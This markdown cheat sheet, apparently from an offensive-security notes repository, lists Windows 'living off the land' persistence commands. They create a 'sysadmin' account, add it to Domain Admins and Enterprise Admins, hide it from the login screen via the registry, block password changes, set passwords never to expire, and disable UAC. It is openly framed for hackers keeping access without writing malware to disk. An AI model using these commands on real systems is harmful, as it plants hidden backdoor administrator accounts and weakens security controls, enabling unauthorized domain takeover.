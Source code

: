 # Living off the Land

Normally you wouldn't create an account since it is intrusive but hackers had to avoid writing malware on disk as much as possible. Make your decisions wisely.

## 01 - Command Prompt

- Method 1

```
C:\> net user sysadmin s3cur3d+1T /add /y

C:\> net group "Domain Admins" sysadmin /add /domain

C:\> net group "Enterprise Admins" sysadmin /add /domain

C:\> net user sysadmin /domain /expires:never /y
```

- Method 2

```
C:\> dsadd user "cn=<username>,cn=Users,dc=<domain>,dc=<tdl>" -pwd <password>
```

Makes the user account invisible from the Windows Login screen

```
C:\> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v sysadmin /t REG_DWORD /d 0 /f
```

Sometimes it's a bit annoying when losing access that somebody changed the password whatever if it's on purpose or accidental. This `/passwordchg:<YES | NO>` option will prevent it from happening.

```
C:\> net user sysadmin /passwordchg:no
```

Never expire the password (this command is intrusive so be careful)

```
C:\> net accounts /maxpwage:unlimited
```

Disabling UAC that allows the hacker to take full control

```
C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

Enabling UAC to make the admin restrictive

```
C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f
```

## 02 - PowerShell

TODO: Create user account in the domain controller

```
PS C:\> New-LocalUser -Name sysadmin -NoPassword
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)